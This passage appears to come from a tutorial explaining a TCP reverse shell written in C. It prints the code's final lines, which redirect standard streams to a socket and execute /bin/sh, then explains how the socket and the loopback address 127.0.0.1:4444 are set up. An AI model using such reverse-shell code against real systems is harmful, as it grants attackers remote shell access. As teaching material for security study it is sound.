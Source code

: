 ```c

    /* Direct Connection Socket Output */
    for (int i = 0; i < 3; i++)
    {   
        dup2(sockfd, i); 
    }   

    /* Execute Program */
    execve("/bin/sh", NULL, NULL);
    return 0;
}
```

#### Create a TCP Socket
`int socket(int domain, int type, int protocol);`

_Note from the author:_ This explanation has been reused from a previous post as the purpose of the function is the same in both cases.

First, a TCP socket is created using the `socket` function. As described in `man 2 socket`, the function creates an endpoint for communication and returns a file descriptor that refers to that endpoint. `socket` expects a domain argument, a type argument, and a protocol argument.

In this case, the domain argument `AF_INET` specifies the IPv4 communication protocol, the type argument `SOCK_STREAM` specifies the connection-based TCP standard for data exchange, and the protocol argument `0` indicates that the system should select the default protocol number based on the previously specified domain and protocol arguments.

#### Create an IP Address Pointer
A pointer to the IP address of `127.0.0.1` is created which will later be used in the creation of the IP socket address structure `addr` which will ultimately determine where the reverse shell connection will terminate (i.e. the IP address of the remote listening host). The IP address of `127.0.0.1` is used for demonstration purposes, as this IP address is assigned to the loopback `lo` interface of the test system.

#### Create an IP Socket Address Structure
This process is very similar to the process outlined in the analysis of the TCP bind shell C code, however there are a couple of important differences. In the case of the TCP reverse shell, the `addr` IP socket address structure is created for later use with the `connect` function. As further explained in `man 7 ip`, an IP socket address is defined as a combination of an IP interface address and a 16-bit (2 byte) port number. The man page also states that `sin_family` is always set to `AF_INET`, that `sin_port` defines a port number in network byte order. 

In the code above, the `htons` function converts the unsigned short integer `4444` from host byte order to network byte which is the format expected for `sin_port`. As detailed in `man inet_aton`, the `inet_aton` function is used to convert and store the IPv4 numbers-and-dots IP address of `127.0.0.1` into binary form (in network byte order). The first argument expected by `inet_aton` is a numbers-and-dots IPv4 address and the second argument is a pointer to a structure where the binary network byte order form of the IPv4 address should be stored (`sin_addr`, as expected by the `sockaddr` structure, in this case).

It is also important to note that the `addr` struct will be padded to the size of `struct sockaddr` (decimal `16`) as defined in the `/usr/include/linux/in.h` file. The `struct sockaddr` definition is shown below.
